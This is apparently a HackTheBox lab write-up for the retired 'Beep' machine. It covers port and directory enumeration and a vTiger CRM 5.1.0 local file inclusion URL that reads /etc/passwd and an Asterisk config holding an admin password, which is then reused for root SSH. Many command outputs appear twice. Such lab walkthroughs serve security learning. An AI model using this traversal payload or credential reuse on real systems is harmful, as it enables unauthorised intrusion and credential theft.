

hackthebox Beep
Released: 15th March 2017 / Pwned: 23rd September 2019 - [+] Solved whilst RetiredBeep is overwhelming because there's a lot of services running, but relatively simple if you manage to navigate through the sea of open ports. There are a few ways to solve the box, I did it the easy way.
1) Nmap
Scan for open TCP ports:
root@gotham:~/ctf/beep# mkdir nmap
root@gotham:~/ctf/beep# nmap -p- -T4 -oN nmap/tcp-allports.txt 10.10.10.7
Starting Nmap 7.80 ( https://nmap.org ) at 2019-09-23 10:02 BST
Nmap scan report for 10.10.10.7
Host is up (0.041s latency).
Not shown: 65519 closed ports
PORT STATE SERVICE
22/tcp open ssh
25/tcp open smtp
80/tcp open http
110/tcp open pop3
111/tcp open rpcbind
143/tcp open imap
443/tcp open https
878/tcp open unknown
993/tcp open imaps
995/tcp open pop3s
3306/tcp open mysql
4190/tcp open sieve
4445/tcp open upnotifyp
4559/tcp open hylafax
5038/tcp open unknown
10000/tcp open snet-sensor-mgmt
root@gotham:~/ctf/beep# nmap -p- -T4 -oN nmap/tcp-allports.txt 10.10.10.7
Starting Nmap 7.80 ( https://nmap.org ) at 2019-09-23 10:02 BST
Nmap scan report for 10.10.10.7
Host is up (0.041s latency).
Not shown: 65519 closed ports
PORT STATE SERVICE
22/tcp open ssh
25/tcp open smtp
80/tcp open http
110/tcp open pop3
111/tcp open rpcbind
143/tcp open imap
443/tcp open https
878/tcp open unknown
993/tcp open imaps
995/tcp open pop3s
3306/tcp open mysql
4190/tcp open sieve
4445/tcp open upnotifyp
4559/tcp open hylafax
5038/tcp open unknown
10000/tcp open snet-sensor-mgmt
Grep Nmap's output for the open ports
root@gotham:~/ctf/beep# grep ^[0-9] nmap/tcp-allports.txt | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$// > nmap/tcp-open_ports.txt
root@gotham:~/ctf/beep# cat nmap/tcp-open_ports.txt
22,25,80,110,111,143,443,878,993,995,3306,4190,4445,4559,5038,10000
root@gotham:~/ctf/beep# cat nmap/tcp-open_ports.txt
22,25,80,110,111,143,443,878,993,995,3306,4190,4445,4559,5038,10000
And run service detection and default scripts against the open TCP ports:
-T4 aggressive scan-sV service enumeration-sC default scripts-O OS detection-oN default output
root@gotham:~/ctf/beep# nmap -p $(cat nmap/tcp-open_ports.txt) -T4 -sV -sC -O -oN nmap/tcp-openports.txt 10.10.10.7
Starting Nmap 7.80 ( https://nmap.org ) at 2019-09-23 10:05 BST
Nmap scan report for 10.10.10.7
Host is up (0.058s latency).
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey:
| 1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_ 2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp open smtp Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN,
80/tcp open http Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
110/tcp open pop3 Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: EXPIRE(NEVER) RESP-CODES PIPELINING USER APOP STLS LOGIN-DELAY(0) TOP IMPLEMENTATION(Cyrus POP3 server v2) UIDL AUTH-RESP-CODE
111/tcp open rpcbind 2 (RPC #100000)
143/tcp open imap Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: MULTIAPPEND OK ATOMIC UIDPLUS NAMESPACE NO SORT=MODSEQ URLAUTHA0001 ACL QUOTA ID STARTTLS BINARY RENAME CONDSTORE IDLE CHILDREN LITERAL+ LISTEXT CATENATE IMAP4 ANNOTATEMORE THREAD=REFERENCES UNSELECT THREAD=ORDEREDSUBJECT IMAP4rev1 Completed SORT RIGHTS=kxte X-NETSCAPE MAILBOX-REFERRALS LIST-SUBSCRIBED
443/tcp open ssl/https?
|_ssl-date: 2019-09-23T09:08:40+00:00; -3s from scanner time.
878/tcp open status 1 (RPC #100024)
993/tcp open ssl/imap Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp open pop3 Cyrus pop3d
3306/tcp open mysql MySQL (unauthorized)
4190/tcp open sieve Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 (included w/cyrus imap)
4445/tcp open upnotifyp?
4559/tcp open hylafax HylaFAX 4.3.10
5038/tcp open asterisk Asterisk Call Manager 1.1
10000/tcp open http MiniServ 1.570 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Starting Nmap 7.80 ( https://nmap.org ) at 2019-09-23 10:05 BST
Nmap scan report for 10.10.10.7
Host is up (0.058s latency).
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey:
| 1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_ 2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp open smtp Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN,
80/tcp open http Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
110/tcp open pop3 Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: EXPIRE(NEVER) RESP-CODES PIPELINING USER APOP STLS LOGIN-DELAY(0) TOP IMPLEMENTATION(Cyrus POP3 server v2) UIDL AUTH-RESP-CODE
111/tcp open rpcbind 2 (RPC #100000)
143/tcp open imap Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: MULTIAPPEND OK ATOMIC UIDPLUS NAMESPACE NO SORT=MODSEQ URLAUTHA0001 ACL QUOTA ID STARTTLS BINARY RENAME CONDSTORE IDLE CHILDREN LITERAL+ LISTEXT CATENATE IMAP4 ANNOTATEMORE THREAD=REFERENCES UNSELECT THREAD=ORDEREDSUBJECT IMAP4rev1 Completed SORT RIGHTS=kxte X-NETSCAPE MAILBOX-REFERRALS LIST-SUBSCRIBED
443/tcp open ssl/https?
|_ssl-date: 2019-09-23T09:08:40+00:00; -3s from scanner time.
878/tcp open status 1 (RPC #100024)
993/tcp open ssl/imap Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp open pop3 Cyrus pop3d
3306/tcp open mysql MySQL (unauthorized)
4190/tcp open sieve Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 (included w/cyrus imap)
4445/tcp open upnotifyp?
4559/tcp open hylafax HylaFAX 4.3.10
5038/tcp open asterisk Asterisk Call Manager 1.1
10000/tcp open http MiniServ 1.570 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Results analysis:
•
22/ssh - Useful to know for later•
25, 110, 143, 995 - Email! Will need credentials to access•
80/http and 443/https - Web servers! These have a big attack surface, and is where you should look first•
3306/mysql - MySQL is running, but can only be logged in from localhost•
4559 and 5038 - HylaFAX and Asterisk hint at what software package is running on this box2) 80/http - gobuster
Visit
http://10.10.10.7Elastix is running.
What is Elastix?
Elastix is collection of open source tools that helps users build a PBX - a Private Branch Exchange, which is a phone system where users can call internally within the company and externally using a shared phone line. Think call centres.
Elastix includes PBX, IP PBX (VoIP basically), email, instant messaging, faxing and collaboration tools. This explains why there's so many services running on the box - they're all tied into Elastix.
Also note by looking in the URL bar that the we've been redirected to https -
https://10.10.10.7Gobuster
Gobuster the page.
Use
-k to skip SSL certification.
root@gotham:~/ctf/beep/80# gobuster dir -e -u https://10.10.10.7 -w /usr/share/seclists/Discovery/Web-Content/big.txt -o gb-big.txt -k
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url: https://10.10.10.7
[+] Threads: 10
[+] Wordlist: /usr/share/seclists/Discovery/Web-Content/big.txt
[+] Status codes: 200,204,301,302,307,401,403
[+] User Agent: gobuster/3.0.1
[+] Expanded: true
[+] Timeout: 10s
===============================================================
https://10.10.10.7/.htpasswd (Status: 403)
https://10.10.10.7/.htaccess (Status: 403)
https://10.10.10.7/admin (Status: 301)
https://10.10.10.7/cgi-bin/ (Status: 403)
https://10.10.10.7/configs (Status: 301)
https://10.10.10.7/favicon.ico (Status: 200)
https://10.10.10.7/help (Status: 301)
https://10.10.10.7/images (Status: 301)
https://10.10.10.7/lang (Status: 301)
https://10.10.10.7/libs (Status: 301)
https://10.10.10.7/mail (Status: 301)
https://10.10.10.7/modules (Status: 301)
https://10.10.10.7/panel (Status: 301)
https://10.10.10.7/recordings (Status: 301)
https://10.10.10.7/robots.txt (Status: 200)
https://10.10.10.7/static (Status: 301)
https://10.10.10.7/themes (Status: 301)
https://10.10.10.7/var (Status: 301)
https://10.10.10.7/vtigercrm (Status: 301)
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url: https://10.10.10.7
[+] Threads: 10
[+] Wordlist: /usr/share/seclists/Discovery/Web-Content/big.txt
[+] Status codes: 200,204,301,302,307,401,403
[+] User Agent: gobuster/3.0.1
[+] Expanded: true
[+] Timeout: 10s
===============================================================
https://10.10.10.7/.htpasswd (Status: 403)
https://10.10.10.7/.htaccess (Status: 403)
https://10.10.10.7/admin (Status: 301)
https://10.10.10.7/cgi-bin/ (Status: 403)
https://10.10.10.7/configs (Status: 301)
https://10.10.10.7/favicon.ico (Status: 200)
https://10.10.10.7/help (Status: 301)
https://10.10.10.7/images (Status: 301)
https://10.10.10.7/lang (Status: 301)
https://10.10.10.7/libs (Status: 301)
https://10.10.10.7/mail (Status: 301)
https://10.10.10.7/modules (Status: 301)
https://10.10.10.7/panel (Status: 301)
https://10.10.10.7/recordings (Status: 301)
https://10.10.10.7/robots.txt (Status: 200)
https://10.10.10.7/static (Status: 301)
https://10.10.10.7/themes (Status: 301)
https://10.10.10.7/var (Status: 301)
https://10.10.10.7/vtigercrm (Status: 301)
3) /vtigercrm
Visit
https://10.10.10.7/vtigercrmOn the bottom right of the page, you'll find a vitger CRM version number -
5.1.0
searchsploit for vigter CRM using the version number you just found.
root@gotham:~/ctf/beep/exploits# searchsploit vtiger 5.1
------------------------------------------------------- ----------------------------------------
Exploit Title | Path
| (/usr/share/exploitdb/)
------------------------------------------------------- ----------------------------------------
vTiger CRM 5.1.0 - Local File Inclusion | exploits/php/webapps/18770.txt
------------------------------------------------------- ----------------------------------------
------------------------------------------------------- ----------------------------------------
Exploit Title | Path
| (/usr/share/exploitdb/)
------------------------------------------------------- ----------------------------------------
vTiger CRM 5.1.0 - Local File Inclusion | exploits/php/webapps/18770.txt
------------------------------------------------------- ----------------------------------------
There's an LFI vulnerability for this version :)
4) vTiger 5.1 LFI
https://www.exploit-db.com/exploits/18770
Visit
https://10.10.10.7/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../../etc/passwd%00 to grab /etc/passwd.The output won't be pretty because the web page isn't rendering the HTML.
You can solve this by viewing the source -
Ctrl + U5) Find creds with LFI
We know from Nmap what services are running, so I tried to find the conf files for those services through google and read them via LFI, in the hopes of finding credentials.

The top results is this - https://wiki.asterisk.org/wiki/display/AST/Directory+and+File+Structure
/etc/asterisk contains the configuration files for Asterisk./etc/asterisk, and the search suggestions reveal some files.In
/etc/asterisk/manager.conf, you'll find a set of admin credentials.https://10.10.10.7/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../../etc/asterisk/manager.conf%00
[admin]
secret = jEhdIekWmdjE
deny=0.0.0.0/0.0.0.0
permit=127.0.0.1/255.255.255.0
secret = jEhdIekWmdjE
deny=0.0.0.0/0.0.0.0
permit=127.0.0.1/255.255.255.0
6) SSH in as root
Use the password you've just found to ssh in as root.
root@gotham:~/ctf/beep# ssh root@10.10.10.7
root@10.10.10.7's password: jEhdIekWmdjE
Last login: Mon Sep 23 16:28:51 2019 from 10.10.14.4
Welcome to Elastix
----------------------------------------------------
To access your Elastix System, using a separate workstation (PC/MAC/Linux)
Open the Internet Browser using the following URL:
http://10.10.10.7
[root@beep ~]# cat /home/fanis/user.txt
aeff3def0c...
[root@beep ~]# cat /root/root.txt
d88e00612...
root@10.10.10.7's password: jEhdIekWmdjE
Last login: Mon Sep 23 16:28:51 2019 from 10.10.14.4
Welcome to Elastix
----------------------------------------------------
To access your Elastix System, using a separate workstation (PC/MAC/Linux)
Open the Internet Browser using the following URL:
http://10.10.10.7
[root@beep ~]# cat /home/fanis/user.txt
aeff3def0c...
[root@beep ~]# cat /root/root.txt
d88e00612...